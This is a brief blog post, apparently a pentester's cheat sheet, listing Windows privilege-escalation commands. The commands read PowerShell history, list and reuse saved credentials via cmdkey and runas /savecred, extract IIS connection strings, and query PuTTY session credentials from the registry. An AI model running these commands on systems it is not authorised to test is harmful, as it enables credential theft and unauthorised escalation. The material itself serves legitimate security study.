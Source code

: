 ```yaml
---
title: "Windows Privilege Escalation Commands"
date: 2023-03-21T22:45:37+11:00
draft: false
tags: [ "Windows", "Privilege Escalation"]
categories: ["Tech"]
---
```


## Poweshell History
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

## Saved Windows Credentials

`cmdkey /list`

`runas /savecred /user:admin cmd.exe`

## IIS Config

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

## Retrieve Credentials from Software: PuTTY

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

